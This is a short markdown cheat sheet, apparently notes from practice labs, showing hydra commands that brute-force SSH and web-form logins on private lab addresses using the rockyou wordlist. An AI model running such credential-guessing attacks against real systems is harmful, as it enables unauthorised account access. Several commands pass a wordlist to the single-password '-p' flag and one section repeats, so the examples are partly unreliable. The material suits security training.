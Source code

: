 # [Services] hydra

Tools for guess login to `services` like `SSH`, `FTP` and `RDP`

## Avaiable wordlists
- `/usr/share/wordlists/metasploit`
- `/usr/share/wordlists/rockyou.txt` for username

## Basic usage
```bash
hydra -l <username> -p <password> <server> <service>
```

### Guess the username to linux machine
```bash
hydra -L users.txt -p butterfly 10.10.137.76 ssh
```

### Guess the `username` to linux machine
```bash
hydra -L users.txt -p butterfly 10.10.137.76 ssh
```

### Guess the `password` to linux machine
- Using `rockyou.txt` as password
```bash
hydra -l root -p /usr/share/wordlists/rockyou.txt 10.10.137.76 ssh
```

### Specific threads
- Guess the `password` to linux machine, and specific the number of threads to 4
```bash
hydra -l root -p /usr/share/wordlists/rockyou.txt 10.10.137.76 -t 4 ssh
```

### Specific HTTP post
- With action = `/login` POST, and the input name is `username` and `password`.  
- Tell it's wrong if `Your username or password is incorrect.` appares on the website.  

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    10.10.156.82 http-post-form \
    "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V
```

### Guess ssh
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.156.82 -t 4 ssh
```
